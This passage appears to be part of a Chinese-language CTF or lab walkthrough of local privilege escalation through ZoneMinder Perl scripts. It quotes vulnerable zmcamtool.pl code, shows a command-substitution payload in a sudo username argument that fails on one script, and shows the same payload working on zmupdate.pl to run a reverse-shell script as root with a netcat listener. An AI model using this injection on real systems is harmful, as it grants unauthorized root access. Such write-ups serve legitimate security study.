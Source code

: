 6. 在/user/bin下发现了许多符合条件的文件

   ```
   zmcamtool.pl
   zmcontrol.pl
   zmdc.pl
   zmfilter.pl
   zmonvif-probe.pl
   zmonvif-trigger.pl
   zmpkg.pl
   zmrecover.pl
   zmstats.pl
   zmsystemctl.pl
   zmtelemetry.pl
   zmtrack.pl
   zmtrigger.pl
   zmupdate.pl
   zmvideo.pl
   zmwatch.pl
   zmx10.pl
   ```



7. 依次检索上述符合条件的文件，我在zmcamtool.pl中发现下列这样一段代码

   ```
   ub exportsql {
   
     my ( $host, $port ) = ( $Config{ZM_DB_HOST} =~ /^([^:]+)(?::(.+))?$/ );
     my $command = 'mysqldump -t --skip-opt --compact -h'.$host;
     $command .= ' -P'.$port if defined($port);
     if ( $dbUser ) {
       $command .= ' -u'.$dbUser;
       if ( $dbPass ) {
         $command .= ' -p'.$dbPass;
       }
     }
   ```

   $dbuser由我们输入，考虑可以构造类似   `mysql -u $(command) -p password`这样的语句来注入命令

   但是zmcamtool.pl似乎不可行

   ```
   sudo /usr/bin/zmcamtool.pl --user='$(/tmp/rs.sh)' --pass=123456 --export /tmp/test
   Insecure dependency in `` while running with -T switch at /usr/bin/zmcamtool.pl line 366.
   ```

   

   大致操作思路如上所示，检索其他文件，最终利用zmupdate获取了root shell

   ```
   sudo /usr/bin/zmupdate.pl -u '$(/tmp/rs.sh)' -p=1234 -v 2
   
   Initiating database upgrade to version 1.36.32 from version 2
   
   WARNING - You have specified an upgrade from version 2 but the database version found is 1.36.32. Is this correct?
   Press enter to continue or ctrl-C to abort : 
   
   Do you wish to take a backup of your database prior to upgrading?
   This may result in a large file in /tmp/zm if you have a lot of events.
   Press 'y' for a backup or 'n' to continue : y
   Creating backup to /tmp/zm/zm-2.dump. This may take several minutes.
   
   
   ┌──(root㉿kali)-[/tmp]
   └─# nc -nvlp 4444            
   ```